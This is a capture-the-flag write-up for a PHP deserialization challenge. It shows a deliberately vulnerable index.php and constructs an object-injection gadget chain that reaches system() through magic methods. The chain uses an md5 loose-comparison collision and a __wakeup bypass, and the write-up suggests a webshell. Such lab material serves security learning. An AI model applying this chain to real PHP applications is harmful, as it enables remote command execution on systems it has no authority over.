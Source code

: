# [CTF]YulinSec「Baby」Unser

## Content of file: index.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class C
{
    public $manba;
    function __get($argv)
    {
        $want = $this->manba;
        return $want();
    }
}
class YULIN
{
    public $cmd;
    function __invoke()
    {
        system($this->cmd);
    }
    function __wakeup()
    {
        $this->cmd = "nonono";
    }
}
class T
{
    public $sth;
    function __toString()
    {
        return $this->sth->var;
    }
}

class F
{
    public $user = "what can i say";
    public $notes;
    function __construct($user)
    {
        $this->user = $user;
    }
    function __destruct()
    {
        if ((string)$this->user!=='aabg7XSs'&&md5($this->user) == md5('aabg7XSs')) {
            echo $this->notes;
        }else{
            die("N0!");
        }
    }
}

if (isset($_GET['ser'])) {
    $ser = unserialize(base64_decode($_GET['ser']));
} else {
    echo "what is the MoShuFangFa???";
}
?> what is the MoShuFangFa???
```

## CTF

### The [Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php#language.oop5.magic) in PHP



### Build the malicious attack chain 

It is easy to find the relations between the functions.

```php
$Yulin = new YULIN();
$Yulin->cmd = "base64 faster.py";

$CallFunction = new C();
$CallFunction->manba = $Yulin;

$String = new T();
$String->sth = $CallFunction;

$UserCompare = new F("aabC9RqS");
$UserCompare->notes = $String;

$ser = serialize($UserCompare);
```

**Attention**: When you build the attack link successfully, be sure every argument is valid after changing the command manually, especially the length of string.(except the essential errors, such like the incorrect number of arguments to bypass the magic method `__wakeup`) It is a better choice to use arguments and webshell.
